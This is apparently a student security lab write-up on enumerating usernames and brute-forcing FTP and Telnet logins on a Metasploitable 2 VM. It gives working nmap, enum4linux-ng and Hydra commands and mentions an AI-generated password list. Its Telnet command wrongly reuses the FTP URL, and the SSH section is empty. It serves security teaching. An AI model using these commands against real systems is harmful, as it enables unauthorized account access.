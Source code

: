 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective

1. Explore **vulnerabilities** in common network protocols (FTP, TELNET, SSH & HTTP).
3. Perform brute force attacks to recover passwords.
4. Use recovered credentials to sniff network traffic.
5. Analyze the security posture of each protocol.
6. Propose effective mitigation strategies.
---

## 🛠️ Requirement

| Tool               | Purpose                        |
|--------------------|--------------------------------|
| Kali Linux         | Attacker machine               |
| Metasploitable 2   | Target/vulnerable machine      |
| Wordlist           | Password brute-forcing         |
| Nmap               | Port scanning                  |
| Hydra              | Brute force tool               |
| Burp Suite         | HTTP interception & testing    |
| enum4linux-ng      |                                |
| Python3            |                                |

---

## 🔥 Pre-Heat
1. Performed a port scan using Nmap:
   ```
   nmap -sV -p 21,23,22,80 [target-ip]
   ```
   | Option              | Meaning                                                                                                         |
   |---------------------|-----------------------------------------------------------------------------------------------------------------|
   | `nmap`              | Runs the Nmap network scanner tool.                                                                               |
   | `-sV`               | **Service/version detection** — Nmap will try to determine what software and version is running on each open port.    |
   | `-p 21,23,22,80`    | Tells Nmap to scan **only** these specific ports: <br>• `21` = FTP <br>• `23` = Telnet <br>• `22` = SSH <br>• `80` = HTTP    |
   | `[target-ip]`       | Replace with the IP address of the target/vulnerable machine you are scanning.                                     |

   - Result:
     ![image](assets/nmap-result.png)
     > Here I only scan FTP(21), TELNET(23), SSH(22) and HTTP(80) port.

2. Create Python Virtual Enviroment:
   ```
   python3 -m venv crypto-Venv
   source crypto-Venv/bin/activate
   ```
3. Install enum4linux-ng:
   ```
      git clone https://github.com/cddmp/enum4linux-ng.git
      cd enum4linux-ng
      python3 -m pip install -r requirements.txt
   ```
---

## 🔍 Lab Tasks

### Task 1: Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
---

#### 🚶‍♂️‍➡️ The Process:

1. Enumurate Username Using Enum4linux-ng:

   You may run this script like normal:
   ```
   python3 enum4linux-ng.py -A [target-ip]
   ```
   
   But my version will grep username only and append to username.txt. Useful for brute force tasks: 
   ```
   python3 enum4linux-ng.py -A [target-ip] | grep "username:" | sed 's/username: //' >> username.txt
   ```
   > Make sure run the script in enum4linux-ng directory   

   - Result:
      ```
      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ python3 enum4linux-ng.py -A 192.168.109.131 | grep "username:" | sed 's/username: //' >> username.txt

      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ cat username.txt 
        root
        daemon
        bin
        sys
        sync
        games
        man
        lp
        mail
        news
        uucp
        proxy
        www-data
        backup
        list
        irc
        gnats
        libuuid
        dhcp
        syslog
        klog
        sshd
        bind
        postfix
        ftp
        postgres
        mysql
        tomcat55
        distccd
        telnetd
        proftpd
        msfadmin
        user
        service
        nobody
      ```
      > Here I execute the script and filter the output to extract lines containing username:. Then, I strip the username: prefix and save the resulting usernames to a file named list.username.txt.
      
      **Potential usernames for brute force attacks:**
     
      ```
      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ cat potential-username.txt 
      root
      ftp
      postgres
      mysql
      tomcat55
      proftpd
      msfadmin
      user
      ```
      > Here, I narrowed down the list to potential usernames for brute force attacks. 

---

### Task 2: Perform Brute Force Attacks
   - For brute force attaks we need a two things:
        - potential-username.txt
        - password.txt

   - but how to get the password? There is many list online out there, but for this task we utilized ChatGPT for generate potential password based on the username:
        - [Password.txt](wordlist/password.txt)

   ---

#### 2.1: FTP, TELNET, and SSH

##### FTP:

For do brute force attack, I use Hydra:
   ```
      hydra -L potential-username.txt -P password.txt ftp://[target-ip]
   ```

   - Results:
     ![Image](assets/Hydra-bruteforce-FTP-result.png)

   ---
   
##### TELNET:

   ```
      hydra -L potential-username.txt -P password.txt ftp://[target-ip]
   ```
   - Results:
     ![Image](assets/Hydra-bruteforce-telnet-result.png)

   ---
   
##### SSH:

   ---
     

